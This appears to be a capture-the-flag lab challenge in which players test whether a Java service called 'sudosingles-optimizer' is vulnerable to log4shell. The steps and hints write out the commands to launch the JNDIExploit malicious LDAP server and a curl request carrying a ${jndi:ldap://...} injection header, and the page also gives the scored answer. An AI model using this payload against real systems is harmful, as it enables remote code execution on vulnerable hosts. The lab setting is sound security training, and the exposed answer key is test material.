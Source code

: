 # Task 4: Preparing the Way 🔬

## DESCRIPTION

Looks like the attacker has been using JNDIExploit in your environment! That means they were likely trying to exploit log4j. That’s bad news, especially since you know the SudoSingles™ image optimization microservice is written in Java and uses log4j.

You need to figure out if the "sudosingles-optimizer" service is vulnerable to the log4shell exploit. Now.

A quick and efficient way to figure out if you’re vulnerable is to try to do the exploit yourself. (Maybe not the most secure way, though, so don’t try this at home.)

## DETAILS

So, you're going to use JNDIExploit to see if "sudosingles-optimizer" is vulnerable. This challenge has many parts, so go through each one carefully.

If you’re not already aware, JNDIExploit is a tool that sets up a malicious LDAP server that can be used to execute arbitrary commands on a host running an application vulnerable to the log4shell exploit.

TLDR; you’re going to trick "sudosingles-optimizer" into connecting to a malicious server so you can run whatever commands we want inside its container.

You have to set up the server first. To do this, do the following:

    Open the Terminal Emulator application from the dock on the bottom.

    Navigate to the hacker folder by running “cd /config/Desktop/hacker”

    Find your private ip address on the LAN network. There are many ways to find your IP address on Linux – I'll leave this one to you. Just make sure you write it down. The IP you find should look something like 10.0.XX.XX or 10.0.XX.XXX

    Run the JNDIExploit-1.2-SNAPSHOT.jar file using Java, configuring it to start the malicious server listening on the private IP address you found in step 3 above.

If you see something like the below, you’re on the right track:

[+] LDAP Server Start Listening on 1389... 
[+] HTTP Server Start Listening on 9001... 


To test to make sure it’s running correctly, open another Terminal Emulator window and run the following command, where YOURIP is your local IP: "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"

To complete this challenge, after you run the above command, enter the last line generated in the Terminal Emulator window where JNDIExploit is running, and hit “Submit.” If your answer doesn’t submit, double-check all the above steps. It could mean that something is wrong with the server command.

## NOTES

For the answer, enter the whole line, exactly as it appears in your terminal.

The answer will look something like this (fill in the blanks): [+] _______ ______: ___ 

(I know it’s annoying, I just want to be sure you’ve set this up correctly, or things will be even more annoying later.)

## SCORING

String answer:

[+] Response code: 200

## HINTS

### HINT 1

To find your IP address, you can run many commands in the Linux terminal. Maybe there’s some way to use the hostname command to get what you want?

If you’re having trouble with JNDIExploit, maybe try looking at the "-h" flag?

### HINT 2

"hostname -I" will give you your private IP address.

"java –jar JNDIExploit-1.2-SNAPSHOT.jar -i PRIVATEIPADDRESS" will start the server properly.

Triple-check to make sure you’re using that IP address.

The answer is the whole last line from the Terminal Emulator window where you first ran the JNDIExploit program. Punctuation and all.

### HINT 3

1. Open a Terminal Emulator window
2. Run "hostname -I" to get your ip address
3. Run "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i YOURIP"
4. Open another window and run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"
5. If you are successful, you should see a line that looks like the following show up in your original terminal window: "[+] Response code: 200"

